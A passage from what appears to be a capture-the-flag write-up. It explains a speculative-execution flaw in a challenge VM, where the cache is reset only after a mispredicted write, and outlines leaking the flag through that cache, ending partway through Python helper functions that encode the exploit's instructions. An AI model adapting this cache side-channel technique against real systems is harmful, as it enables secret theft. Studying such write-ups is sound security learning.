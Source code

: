 Upon validating the executed instructions, the validator will compare the assumed register values with the current validated values of the real registers. If they are not equal, the predicted execution was incorrect and a reset is triggered. This will reset the executor registers to the latest validated values of the real registers, forcing execution of the correct instructions. Additionally, when the mispredicted instruction was a write instruction, the cache is also reset.

```rust
if &execution.assume == regs {
    ...
} else {
    VerificationResult::Reset(execution.result.write_at.is_some())
}
```

### Leaking the flag
We can take advantage of speculative execution and the fact that the cache only resets upon a mispredicted write instruction to leak the flag. Our strategy involves loading portions of the flag into the cache, initiating a reset so that the validator does not panic due to unauthorized access, and then extracting parts of the flag by reading it from the cache.

To reliably trigger a reset we will use the IO read instruction in order to halt the validator thread and speculatively execute instructions to read parts of the flag into the cache. The same IO read instruction will further read a value into the `r0` register which will trigger a reset. After the reset we will continue execution at code that will print out parts of the flag.

### Exploit
```python
# r1 = [addr]
def load_addr(addr):
    i = b''
    i += Inst.LOAD.encode()
    i += p32(addr)

    return i

# addr = r1
def store(addr):
    i = b''
    i += Inst.STORE.encode()
    i += p32(addr)

    return i

def int_write():
    i = b''
    i += Inst.INT.encode()
    i += b'o'

    return i

def int_read():
    i = b''
    i += Inst.INT.encode()
    i += b'i'

    return i

def mov_r0_r1():
    i = b''
    i += Inst.MOV_R0_R1.encode()

    return i

def mov_r1_r0():
    i = b''
```